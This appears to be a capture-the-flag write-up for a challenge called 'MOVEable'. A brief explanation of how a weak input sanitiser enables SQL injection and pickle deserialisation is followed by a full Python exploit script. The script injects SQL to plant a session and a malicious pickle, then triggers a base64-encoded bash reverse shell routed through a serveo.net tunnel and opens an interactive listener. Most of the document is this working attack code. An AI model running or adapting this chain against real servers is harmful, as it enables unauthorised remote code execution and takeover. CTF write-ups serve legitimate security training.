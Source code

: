 ## MOVEable

Inspecting the source code we find that the DBClean() function improperly sanitzes user input, so it is susceptible to the right SQLi. We also find that this uses Pickle, which can be deserialized and RCE is possible. So we will need 2 SQLi to inject a user and session into the DB, then a third to upload the malicious pickle file for revshell. Reversing the DBClean() function made it easy to input a regular SQLi and have it converted to the right format in order to inject.

```python
#!/usr/bin/env python3
from pwn import *
import base64
import pickle
import os
import subprocess
import requests

context.log_level = 'info'

URL = input("Enter the challenge URL: ").rstrip("/")

USER = input("Enter the username for session creation: ")
PASSWORD = input("Enter the password for session creation: ")
SESSION_ID = input("Enter the session ID (ex. 123): ")
PICKLE_PAYLOAD_NAME = input("Enter the filename for the pickle payload: ")

PORT = input("Enter the port number for tcp.serveo.net: ")

IP_PORT = f"tcp.serveo.net/{PORT}"

log.info(f"Target URL: {URL}")
log.info(f"Your reverse shell will connect to {IP_PORT}")

log.info(f"Setting up SSH tunnel to serveo.net on port {PORT}...")
subprocess.run(["ssh", "-R", f"{PORT}:localhost:{PORT}", "serveo.net"])

def doPickle(payload):
    class PickleRce(object):
        def __reduce__(self):
            return (os.system, (payload,))
    return base64.b64encode(pickle.dumps(PickleRce()))

def triggerPayload(filename):
    log.info("Triggering payload")

    endpoint = f"{URL}/download/{filename}/{SESSION_ID}"
    log.info(f"Endpoint: {endpoint}")
    
    response = requests.get(endpoint, verify=False, allow_redirects=False)
    return response.text

def DBRestore(string):
    string = string.replace("'", "\\'")
    string = string.replace("\n", "%0a")
    string = string.replace(" ", "/**/")
    return string

def sendRequest(description, data):
    log.info(f"{description}")
    data = f'username={data}&password={PASSWORD}'
    response = requests.post(f"{URL}/login", data=data, verify=False, allow_redirects=False)
    
    return response.text

session_payload = DBRestore(f"{USER}';\nINSERT INTO activesessions (sessionid, username) VALUES ('{SESSION_ID}', '{USER}');--")
sendRequest("Create session", session_payload)

encodedCommand = base64.b64encode(f'bash -i >& /dev/tcp/{IP_PORT} 0>&1'.encode('utf-8')).decode('utf-8')
Command = f'echo "{encodedCommand}" | base64 -d | bash '
picklePayload = doPickle(Command).decode('utf-8')

file_payload = DBRestore(f"{USER}';\nINSERT INTO files (filename, data, sessionid) VALUES ('{PICKLE_PAYLOAD_NAME}', '{picklePayload}', '{SESSION_ID}');--")
sendRequest("Create file", file_payload)

triggerPayload(PICKLE_PAYLOAD_NAME)

log.info(f"Setting up listener on tcp.serveo.net:{PORT}")
listener = listen(int(PORT))
listener.wait_for_connection()
log.success("Connection received! Starting interaction...")
listener.interactive()
```

